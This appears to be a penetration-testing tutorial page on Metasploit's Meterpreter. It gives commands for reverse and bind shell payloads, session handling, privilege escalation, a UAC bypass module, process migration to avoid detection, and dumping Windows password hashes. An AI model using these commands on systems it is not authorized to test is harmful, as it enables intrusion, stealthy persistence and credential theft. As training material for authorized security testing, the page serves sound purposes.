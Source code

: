 # Meterpreter

Meterpreter is a very powerful shell which runs on Anroid, BSD, Java, Linux, PHP, Python, and Windows vulnerable applications and services

It provides advanced features to gather information, transfer files between the attacker and victim machines, install backdoors and more

To list all possible Meterpreter payloads in MSFConsole:

```
search meterpreter
```

To choose a payload when attacking a Windows machine:

```
set payload windows/meterpreter/reverse_tcp
```

## Bind and Reverse

Meterpreter can both wait for a connection on the target machine or connect back to the attacker machine

Most used configurations are `bind_tcp` and `reverse_tcp`

* **`bind_tcp`** runs a server process on the target machine that waits for connections from the attacker machine
* **`reverse_tcp`** performs a TCP connection back to the attacker machine which could help evade firewall rules

```
set payload windows/meterpreter/reverse_tcp
set payload linux/x86/meterpreter/reverse_tcp
set payload windows/meterpreter/bind_tcp
set payload java/meterpreter/bind_tcp
```

## Sessions

A single instance of MSFConsole can host multiple Meterpreter sessions which means you can instance multiple shells on your targets and switch between them

To switch from a Meterpreter session to the console

```
background
```

To list currently opened sessions

```
sessions -l
```

To resume a background session

```
sessions -i <id>
```

## Information Gathering

You can perform information gathering on the exploited machine and the network it is attached to

You can retrieve:

* Information about the machine and the OS
* The network configuration in use
* The routing table of the compromised host
* Information about the user running the exploited process

### System Information

To retrieve information about the exploited machine: name, OS, architecture, system language and the Meterpreter version running:

```
sysinfo
```

![](<../../../../.gitbook/assets/image (28) (1) (1).png>)

### Network configuration

To print the network configuration:

```
ifconfig
```

![](<../../../../.gitbook/assets/image (20) (1) (1) (1).png>)

### Routing information

```
route
```

![](<../../../../.gitbook/assets/image (15) (1) (1).png>)

### Current User

```
getuid
```

![](<../../../../.gitbook/assets/image (31) (1) (1).png>)

### Privilege Escalation

To just current privileges on Windows

```
run post/windows/gather/win_privs
```

![](<../../../../.gitbook/assets/image (33) (1) (1) (1).png>)



You can use `getsystem` if the owner of the process does not have high privileges on the victim system

```
getsystem
```

![](<../../../../.gitbook/assets/image (11) (1) (1) (1).png>)

### Bypassing UAC

{% hint style="info" %}
In modern Windows operating systems, the User Account Control policy prevent privilege escalation
{% endhint %}

![](<../../../../.gitbook/assets/image (25) (1) (1).png>)

You can bypass that restriction by u sing the `bypassuac` module

```
use exploit/windows/local/bypassuac
```

Then you have to set the session where you want to bypass UAC

```
set session <id>
```

Launch the exploit to get a new Meterpreter session with the UAC policy disabled and use `getsystem`

![](<../../../../.gitbook/assets/image (10) (1) (1).png>)

## Staying Stealthy

Checking pid with `getpid` shows the process you're currently running on

As you can imagine, this process name is not very stealthy and is also suspicious

A user checking their process list may notice something strange on their  machine

![](<../../../../.gitbook/assets/image (35) (1) (1).png>)

Therefore, in order to remain stealthy, we can use the `migrate` command to attach our session on a different process

We have to choose a process with the same privileges we currently have

```
ps -U SYSTEM
migrate <PID> //simply using migrate should work as well if you don't want to be specific
```



## Dumping the Password Database

```
use post/windows/gather/hashdump
set session <id>
exploit
```

![](<../../../../.gitbook/assets/image (16) (1) (1) (1).png>)

## Exploring the Victim System

You can navigate the hard drive by using Unix-like shell commands

![](<../../../../.gitbook/assets/image (29) (1) (1) (1).png>)

## Uploading and Downloading

![](<../../../../.gitbook/assets/image (19) (1) (1) (1).png>)

## Running an OS Shell

You can run a standard OS shell

```
shell
```

![](<../../../../.gitbook/assets/image (26) (1) (1) (1).png>)
